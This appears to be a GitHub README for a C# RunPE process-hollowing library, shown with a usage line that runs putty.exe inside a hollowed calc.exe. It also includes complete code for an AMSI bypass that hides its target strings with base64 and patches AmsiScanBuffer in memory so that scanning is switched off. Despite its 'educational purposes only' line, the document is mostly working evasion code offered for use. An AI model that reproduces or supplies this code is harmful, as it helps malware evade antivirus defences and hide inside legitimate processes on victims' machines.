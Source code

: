 # RunPE (x86/32-bit only)
For educational purposes only. Not intented for use.

Usage: 
```c#
RunPE.Run("C:\\windows\\syswow64\\calc.exe", File.ReadAllBytes("putty.exe"));
```

For a 64-bit version see: https://github.com/gigajew/Mandark

# Problems
Sometimes the program crashes with error code 0xc0000005 and I can only assume it's because of Windows DEP. Not aware of any workarounds as of this date.

# AMSI Disable patch (by Rasta Mouse)
```c#
private static string Decode(string data)
{
	return Encoding.UTF8.GetString(Convert.FromBase64String(data));
}
public static void DisableAMSI()
{
	// credits: Rasta Mouse
	uint flOld;
	IntPtr amsilib = LoadLibrary(Decode("YW1zaS5kbGw="));//"amsi.dll");
	IntPtr proc = GetProcAddress(amsilib, Decode("QW1zaVNjYW5CdWZmZXI="));//"AmsiScanBuffer");
	byte[] _64bit = new byte[] { 0x31, 0xC0, 0x05, 0x78, 0x01, 0x19, 0x7F, 0x05, 0xDF, 0xFE, 0xED, 0x00, 0xC3 }; // "\x31\xC0\x05\x78\x01\x19\x7F\x05\xDF\xFE\xED\x00\xC3"
	byte[] _32bit = new byte[] { 0x31, 0xC0, 0x05, 0x78, 0x01, 0x19, 0x7F, 0x05, 0xDF, 0xFE, 0xED, 0x00, 0xC2, 0x18, 0x00 };
	if (IntPtr.Size * 8 == 64)
	{
		ReplaceCode(proc, _64bit);
	}
	else
	{
		ReplaceCode(proc, _32bit);
	}
}

private static void ReplaceCode(IntPtr location, byte[] newData)
{
	uint flOld;
	VirtualProtect(location, (uint)newData.Length, 0x40, out flOld);
	Marshal.Copy(newData, 0, location, newData.Length);
	VirtualProtect(location, (uint)newData.Length, flOld, out flOld);
}
```
